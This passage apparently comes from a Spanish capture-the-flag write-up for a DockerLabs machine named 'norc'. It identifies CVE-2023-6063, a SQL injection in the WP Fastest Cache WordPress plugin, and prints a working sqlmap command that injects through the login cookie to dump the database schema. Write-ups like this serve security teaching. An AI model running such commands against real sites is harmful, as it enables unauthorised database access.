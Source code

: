 ![](/assets/img/dockerlabs-writeup-norc/norc1_11.png)

---
## CVE Exploitation

El análisis identificó que el plugin WP Fastest Cache en la aplicación es vulnerable a [CVE-2023-6063](https://nvd.nist.gov/vuln/detail/CVE-2023-6063). Esta vulnerabilidad permite SQL Injection.

Este PoC muestra como explotar esta vulnerabilidad usando SQLMap.

<https://github.com/thesafdari/CVE-2023-6063>

```terminal
/home/kali/Documents/dockerlabs/norc:-$ sqlmap --dbms=mysql -u "http://norc.labs/wp-login.php" --cookie='wordpress_logged_in=*' --level=2 --schema --batch
```
